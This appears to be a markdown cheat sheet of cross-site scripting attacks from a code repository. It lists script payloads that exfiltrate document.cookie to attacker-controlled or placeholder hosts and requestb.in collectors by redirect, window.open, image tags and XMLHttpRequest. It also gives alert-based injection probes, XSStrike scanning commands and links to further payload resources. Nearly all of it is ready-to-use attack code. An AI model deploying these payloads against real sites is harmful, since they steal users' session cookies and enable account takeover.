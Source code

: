 # xss hacking

## Payloads

### Document.location
```js
<script>document.location('http://IP_EXTERNE/'+document.cookie)</script>
<script>document.location.href = 'http://requestb.in/XXXXXX?cookies =' + document.cookie;</script>
```

### Window
```js
<script>window.open("http://monserveur/Cookie="+document.cookie)</script>
<script>window.location='http://monsite.free.fr/script.php?cookies='+(document.cookie);</script>
```

### Document.write
```js
<script>document.write('<img src="https://requestb.in/xxxxx?cookie="+document.cookie>admin</img>');</script>
admin"></i>)</span><script>document.write("<img src=http://requestb.in/XXXXX?cookie=".concat(encodeURI(document.cookie)).concat("/>"))</script><i>
```
```js
<script>var xhr = new XMLHttpRequest();xhr.open('POST', 'http://requestb.in/w0sw22w0', true);xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');xhr.send(document.cookie);</script>
```

### alert(1) in JS
```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

injecting inside of input tags
<input/onfocus=alert(0) autofocus>
<input/onfocus=alert`0` autofocus>
<input/onfocus=prompt`0` autofocus>
1'"><input/onfocus={alert`1`} autofocus> 
```

## XSStrike

Cross Site Scripting detection suite equipped with parsers
XSStrike analyses the response with multiple parsers and then crafts payloads
that are guaranteed to work by context analysis integrated with a fuzzing engine

### Documentation

* ![XSStrike Documentation](https://github.com/s0md3v/XSStrike/wiki/Usage)

### Classical GET
```python
python xsstrike.py -u "http://example.com/search.php?q=query"
```

### POST
```python
python xsstrike.py -u "http://example.com/search.php" --data "q=query"
```

### Path payloads
```python
python xsstrike.py -u "http://example.com/search/form/query" --path
```

### Crawl and test
```python
python xsstrike.py -u "http://example.com/page.php" --crawl
```

### Load payloads from file and test them
```python
python3 xsstrike.py -u "http://example.com/page.php?q=query" -f /path/to/file.txt
```

### Find hidden parameters
```python
python xsstrike.py -u "http://example.com/page.php" --params
```

## Resources

https://html5sec.org/

https://gbhackers.com/top-500-important-xss-cheat-sheet/

https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

https://github.com/s0md3v/AwesomeXSS/
